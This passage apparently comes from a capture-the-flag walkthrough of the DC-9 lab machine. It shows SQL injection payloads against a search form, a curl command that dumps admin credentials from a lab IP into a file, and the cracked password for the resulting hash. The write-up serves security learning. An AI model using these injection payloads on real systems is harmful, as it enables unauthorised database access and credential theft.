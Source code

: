 At this point I'm going to intercept the request with burpsuite to later make the request with curl and filter the data with regular expressions, in this way I have the credentials stored in a file on my machine.

``` bash
Mary' and 1=2 union select concat(Username,0x3a,Password),null,null,null,null,null from Users #
```

![](/assets/images/DC-9/screenshot-8.png)

``` bash
root@kali:~$ curl -s -X POST "http://192.168.179.128/results.php" --data "search=Mary%27+and+1%3D2++union+select+concat%28Username%2C0x3a%2CPassword%29%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull+from+Users+%23" | grep -oP "\w*:\S{32}" > users_staff
root@kali:~$ cat users_staff
admin:856f5de590ef37314e7c3bdf6f8a66dc
```

In the result it can be seen that there's only one record. Let's try to crack this password hash in [hashes.com](https://hashes.com). 

![](/assets/images/DC-9/screenshot-9.png)

As you can see, the password for this hash is **transorbital1**

**users database**

Now let's try to find out what interesting information may exist in the **users** schema, for this we start by listing the tables.

``` bash 
Mary' and 1=2 union select table_name,null,null,null,null,null from information_schema.tables where table_schema='users' #
```

![](/assets/images/DC-9/screenshot-10.png)
